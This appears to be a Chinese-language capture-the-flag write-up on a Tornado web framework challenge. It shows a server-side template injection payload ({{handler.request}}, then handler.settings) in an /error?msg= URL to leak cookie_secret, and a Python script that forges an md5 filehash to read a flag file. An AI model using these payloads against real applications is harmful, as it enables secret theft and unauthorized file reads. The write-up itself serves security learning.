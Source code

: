 应该是需要阅读这个框架的源码 然后找到cookie_secret的存放位置 知道存放位置归属于哪个类 如何调用 满足什么条件

![image-20241210174914533](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210174914520-587386018.png)

```
http://220.249.52.134:32855/error?msg={{handler.request}}


HTTPServerRequest(protocol='http',host='220.249.52.134:32855', method='GET', uri='/error?msg={{handler.request}}',version='HTTP/1.1', remote_ip='xx.xx.xxx.xxx')
```

## 这题的关键解法思路

```
1 搜索资料的时候先弄明白题目的归属类型 是什么漏洞 是什么框架 目前是框架的那一部分重点可攻击

2 阅读框架的官方文档 搞明白目前的模块归属，调用方法，可利用点

3 下载tornado框架的源代码 ctrl shift f 全局搜索cookie_secret
```

框架中说明，还需要得到Application为请求提供服务的东东

RequestHandler.application

具体这个模板注入过滤了什么东西得fuzz 沙盒逃逸 

![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/handler.png)

全局搜索出来这个cookie_secret的获取方式了 是一个handler.application.settings

![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/cookie_secret.png)

官方文档中说明这个变量的别名是RequestHandler.settings

![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/handler_settings.png)

这里必要使用application来作为请求服务的对象，才能使用handler.application.setting来获取cookie，这里通过找到别名来获得cookie，这样就不用再去找application了，上面的图片明确说明，RequestHandler对象的别名就是handler，所以请求handler.settings=self.application.settings,至此我已经觉得崩溃了。

利用方式/error?msg=

![image-20241210231627959](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241210231629190-1365610781.png)

```python
import hashlib
import requests

fliename = '/fllllllllllllag'
cookie = "c0b17ff9-1eb5-4cd9-bfe0-353dce9a7e01"
filename = hashlib.md5(fliename.encode()).hexdigest()
a = cookie + filename
filehash = hashlib.md5(a.encode()).hexdigest()
print(filehash)

url = "http://9c22746a-4428-4833-943a-fa28ed505054.node5.buuoj.cn:81/file?filename=/fllllllllllllag&filehash={}".format(filehash)

response = requests.get(url)

if response.status_code == 200:
    print(response.text)
else:
    print("error:",response.status_code)
```
